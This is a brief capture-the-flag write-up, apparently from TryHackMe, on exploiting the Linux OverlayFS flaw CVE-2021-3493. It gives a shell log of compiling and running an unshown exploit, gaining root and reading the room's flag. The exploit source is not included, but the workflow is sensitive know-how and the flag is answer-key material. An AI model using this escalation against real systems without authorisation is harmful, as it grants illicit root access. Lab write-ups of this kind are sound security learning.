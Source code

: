 # OverlayFS - CVE-2021-3493
---
<b> 

> OverlayFS is a Linux kernel module that allows the system to combine several mount points into one, so that you can access all the files from each within one directory structure.

> It's often used by live USBs, or some other specialist applications. One use is having a read only root file system, and another partition "overlayed" with that to allow applications to write to a temporary file system.
</b>

<b>Target IP → 10.10.21.118</b>

#### Goal:
     We have to enter as SSH login.

OverlayFS is a Linux kernel module that allows the system to combine several mount points into one, so that you can access all the files from each within one directory structure.

It's often used by live USBs, or some other specialist applications. One use is having a read only root file system, and another partition "overlayed" with that to allow applications to write to a temporary file system.

Target IP → 10.10.21.118

We have to enter as SSH login.


Now I am in…

1. Now we have to copy the exploit from another website where we have the details of OverlayFS.
2. We will copy that file into `exploit.c` file as it is a C file then we will run the compiler.
3. Then it will create an exploit auto root file and we have to run that `./root`.

# Commands
```sh

Last login: Mon Jul  1 10:10:48 2024 from 10.100.2.141
overlay@overlayfs:~$ ls
overlay@overlayfs:~$ pwd
/home/overlay
overlay@overlayfs:~$ 
overlay@overlayfs:~$ nano exploit.c
overlay@overlayfs:~$ gcc -o exploit exploit.c
overlay@overlayfs:~$ ls
exploit  exploit.c
overlay@overlayfs:~$ ./exploit 
bash-4.4# ls
exploit  exploit.c  ovlcap
bash-4.4# whoami
root
bash-4.4# cat ov`
> ^C
bash-4.4# cat ovlcap/
cat: ovlcap/: Is a directory
bash-4.4# cd ovlcap/
bash-4.4# ls
lower  merge  upper  work
bash-4.4# cd lower/
bash-4.4# ls
bash-4.4# cd ..
bash-4.4# cd merge/
bash-4.4# ls
bash-4.4# cd ..
bash-4.4# cd ..
bash-4.4# ls
exploit  exploit.c  ovlcap
bash-4.4# cd /mnt/root
bash: cd: /mnt/root: No such file or directory
bash-4.4# lscd /mnt/root/
bash: lscd: command not found
bash-4.4# id
uid=0(root) gid=0(root) groups=0(root),1001(overlay)
bash-4.4# cd  /root/
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt 
thm{27aaa5865a52dcd4cb04c0e0a2d39404}
bash-4.4# 
```

